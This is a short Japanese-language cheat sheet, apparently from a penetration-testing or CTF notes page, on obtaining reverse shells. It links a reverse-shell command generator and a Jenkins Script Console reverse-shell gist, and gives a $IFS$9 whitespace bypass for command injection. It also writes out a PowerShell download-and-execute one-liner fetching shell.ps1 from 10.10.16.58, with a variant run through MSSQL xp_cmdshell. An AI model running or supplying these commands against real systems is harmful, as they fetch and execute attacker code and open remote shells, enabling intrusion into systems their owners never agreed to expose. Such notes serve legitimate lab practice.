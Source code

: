 # Reverse Shell
Reverse Shellに関するナレッジ

## Code Injection
Webサービスが使用可能であり、脆弱性が存在する場合は活用できる
以下サイトでReverse Shellを貼るコマンドを生成できる

https://www.revshells.com/

生成したコマンドを攻撃対象に挿入する

### 文字制限Bypass
* 入力値に空白を使用できない場合、$IFS$9で代用できる

https://www.ctfnote.com/web/os-command-injection/whitespace-bypass

## Jenkins
JenkinsのScript Consoleが使用可能な場合等は以下のソースでリバースシェルを貼れる

https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

## PowerShell
URLで指示した先をコマンドとして解釈する
```
IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.16.58/shell.ps1\")
```

使用例としてはReverseShellを張るためのps1をサーバに設置して、mssqlの
xp_cmdshell等から実行するなど

```
SQL > xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.16.58/shell.ps1\");"
```
